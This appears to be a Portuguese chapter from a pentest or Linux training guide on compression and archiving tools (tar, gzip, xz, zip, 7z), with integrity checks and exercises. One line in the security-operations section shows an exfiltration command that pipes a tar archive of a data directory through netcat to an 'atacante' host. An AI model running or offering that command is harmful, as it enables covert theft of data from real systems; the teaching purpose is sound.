 # Capítulo 9 — Compactação e Arquivamento

## Objetivos do capítulo
- Utilizar `tar` para criar e extrair arquivos compactados.
- Conhecer formatos (`gzip`, `bzip2`, `xz`, `zip`) e quando aplicá-los.
- Preparar evidências e artefatos de pentest para transporte seguro.

## Ferramentas principais
| Formato | Comandos | Características |
| --- | --- | --- |
| `tar` | `tar -cf`, `tar -xf` | Agrupa arquivos sem compressão por padrão. |
| `tar.gz` | `tar -czf`, `tar -xzf` | Combina `tar` + `gzip` (rápido). |
| `tar.bz2` | `tar -cjf`, `tar -xjf` | Compressão melhor, mais lento. |
| `tar.xz` | `tar -cJf`, `tar -xJf` | Alta taxa de compressão, útil para grandes datasets. |
| `zip` | `zip`, `unzip` | Compatível com Windows. |
| `7z` | `7z a`, `7z x` | Suporte a múltiplos formatos, compressão forte. |

### Exemplos práticos
```bash
tar -czf relatorio.tar.gz relatorio.md evidencias/
7z a resultados.7z *.pcap -pSenhaForte -mhe
```

### Verificação de integridade
- `tar -tzf arquivo.tar.gz` — lista conteúdo sem extrair.
- `sha256sum arquivo.tar.gz` — gerar hash para garantir autenticidade.
- `gpg --detach-sign` — assinar arquivos críticos.

## Uso em operações de segurança
- **Ofensivo**: exfiltrar dados discretamente (`tar -czf - /dados | nc atacante 9000`).
- **Defensivo**: empacotar evidências forenses com hashes e armazenar em mídia WORM.

## Exercícios propostos
1. Montar script que gera backup diário de `/etc` com compressão `xz` e expira arquivos antigos.
2. Criar pipeline que compacta capturas `pcap` e transfere para servidor remoto com `scp`.
3. Testar diferentes níveis de compressão (`gzip -1` a `gzip -9`) e comparar tamanho/tempo.

## Referências adicionais
- `docs/04-filesystems-permissoes-e-criptografia.md` (seção de backup e integridade).
- `logs/` pode armazenar hashes e metadados de compressões realizadas.
